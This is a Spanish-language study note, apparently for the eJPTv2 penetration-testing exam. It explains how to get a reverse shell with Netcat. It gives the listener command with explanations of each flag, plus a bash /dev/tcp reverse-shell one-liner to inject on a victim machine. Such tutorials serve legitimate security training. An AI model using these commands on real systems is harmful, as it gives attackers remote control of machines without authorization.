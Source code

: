 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/blob/main/1%20-%20Conceptos%20B%C3%A1sicos%20de%20Hacking/Imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

**`nc -nlvp 443`**

<aside>
💡

**`nc`**: Invoca **la herramienta** Netcat.

**`-n`**: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-**l**`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-**v**`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-**p 443**`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/blob/main/1%20-%20Conceptos%20B%C3%A1sicos%20de%20Hacking/Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/blob/main/1%20-%20Conceptos%20B%C3%A1sicos%20de%20Hacking/Imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/blob/main/1%20-%20Conceptos%20B%C3%A1sicos%20de%20Hacking/Imagenes/image%202.png)

![image.png](https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/blob/main/1%20-%20Conceptos%20B%C3%A1sicos%20de%20Hacking/Imagenes/image%203.png)